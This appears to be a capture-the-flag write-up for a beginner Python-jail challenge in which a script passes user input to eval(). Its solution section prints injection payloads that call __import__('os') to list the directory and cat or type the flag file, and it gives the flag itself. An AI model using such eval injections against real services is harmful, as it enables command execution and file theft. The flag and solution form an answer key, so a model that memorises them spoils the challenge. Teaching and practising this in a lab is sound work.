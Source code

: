 # PyJail-Intro 1

### Difficulty: Beginner
### Objective: `eval()`

## Setting Up
Install both the `pyjail.py` and `flag-afd3ca89be90859c70e89a903f09f9fb.txt` files into the same directory. Then, just execute the python script to start the challenge. 

![image](https://github.com/user-attachments/assets/cf04ccba-8bc8-4779-9045-b283c7dd7651)



## Solution

<details>

### Step 1
We can use the `__import__` and then called the `os` modules to use one of its functions which is `listdir` or `system`. Both have similar functions to list down the files in the working directories.

`__import__('os').listdir('.')`

![image](https://github.com/user-attachments/assets/e56d22e8-6b1e-4b6e-b7e1-2dd5d82f5723)

OR

> Linux OS:
`__import__('os').system('ls')`

> Windows OS:
`__import__('os').system('dir')`

### Step 2
Now we know that there's a file called `flag-afd3ca89be90859c70e89a903f09f9fb.txt` so we can just display the content by using `cat` or `type` depends on the OS you're using.

>Linux OS:
`__import__('os').system('cat flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

>Windows OS:
`__import__('os').system('type flag-afd3ca89be90859c70e89a903f09f9fb.txt')`

![image](https://github.com/user-attachments/assets/254bd2e3-7f9d-484a-8470-08befb211702)

## Flag 
>flag{93da9b115c23778dafd95da03f642d48}

</details>
